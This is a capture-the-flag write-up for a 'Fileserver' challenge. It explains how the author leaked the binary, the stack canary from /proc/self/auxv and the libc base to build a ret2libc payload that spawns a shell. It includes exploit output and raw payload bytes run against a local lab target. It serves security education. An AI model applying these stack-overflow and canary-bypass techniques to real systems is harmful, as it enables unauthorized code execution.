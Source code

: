 Fileserver challange - 2024 
===============================

The binary has a buffer overrun bug that can be triggered by viewing a file and setting the length to -1.
Since we can read /proc/self/fd/0 (STDIN), it is possible input data and overflow the buffer (144 bytes).
However, first download the binary by reading the file /proc/self/exe (the ELF of the current process binary).

After that, we can run it locally and also examine the code by using objdump -d binary.bin.

It is not possible to just overflow the buffer and set a new return address because of stack-smashing protection. Stack-smashing protection uses a canary byte (in this case, it is three bytes + 00). The canary byte is placed between the buffer on the stack and the return address - when the function exits, it checks that the canary byte is intact. So, we have to find the canary byte and include it in the payload.

Get the canary byte from /proc/self/auxv. The AUXV vectors are useful:
 - 25 is AT_RANDOM = canary byte
 - 7 is the address of the LD-library
 - 9 is the entry point in the running binary.
   
Calculate the address of libc. The start addresses of ld and libc change between different executions of the program. BUT... It turns out that the distance between the LD-library (linker) and the LIBC is constant. In my case, it's 0x23900 on the remote machine and 0x24000 on my local machine. It is possible to find the distance between libc and ld by running /proc/self/maps.
Once the canary byte is known and we have the address of libc, a shellcode can be constructed and passed to the remote host.
Use 'cat flag' to retrieve the flag!

```
>> python3 fileserver.py 
[*] '/usr/lib32/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to localhost on port 5554: Done
b'(1) Read file\n(2) [DEBUG] Read mem\nChoice: '
  conn.sendline(path)
--> b'Filename: '
[+] Receiving all data: Done (15.50KB)
[*] Closed connection to localhost port 5554
-- binary saved to {filename}
[*] '/root/basic/fileserver/exe'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
 === LOCAL RUN === 
[+] Starting local process '/root/basic/fileserver/exe': pid 14664
b'(1) Read file\n(2) [DEBUG] Read mem\nChoice: '
b'Filename: '
Found ld-adress: 0xf7f78000
Calculated libc-adress: 0xf7d38000
Found AT_RANDOM (canary byte): 0xffe9055b
b'Addr: '
0x7fffffe9055b
0x294584ac 0x8f63f692 0xc790ddd9 0x86e992f5 0x69363836 0x00000000 0x00000000 0x00000000
canary: 2894349568
b'Filename: '
b'nr of bytes: '
=== Create payload - libc-addr: 0xf7d38000
canary hex: 0xac844500
binsh: 0xf7ef10d5
system: 0xf7d7fcd0
Sending payload...
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00E\x84\xacBBBBBBBB\x00\x00\x00\x00\xd0\xfc\xd7\xf7\x00\x00\x00\x00\xd5\x10\xef\xf7\n\nEOF /proc/self/fd/0\n'
b'flaggans-v\xc3rde!\n'
[*] Stopped process '/root/basic/fileserver/exe' (pid 14664)
 === REMOTE RUN === 
[+] Opening connection to localhost on port 5554: Done
b'(1) Read file\n(2) [DEBUG] Read mem\nChoice: '
b'Filename: '
Found ld-adress: 0xf7ee8000
Calculated libc-adress: 0xf7caf000
Found AT_RANDOM (canary byte): 0xffd7abdb
b'Addr: '
0x7fffffd7abdb
0xebd952f2 0xba95167e 0x13e34164 0xfb46ca87 0x69363836 0x00000000 0x00000000 0x00000000
canary: 4065515776
b'Filename: '
b'nr of bytes: '
=== Create payload - libc-addr: 0xf7caf000
canary hex: 0xf252d900
binsh: 0xf7e680d5
system: 0xf7cf6cd0
Sending payload...
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\xd9R\xf2BBBBBBBB\x00\x00\x00\x00\xd0l\xcf\xf7\x00\x00\x00\x00\xd5\x80\xe6\xf7\n\nEOF /proc/self/fd/0\n'
b'undut{XXXX-XXXXX-XXX-XXX}\n'
```
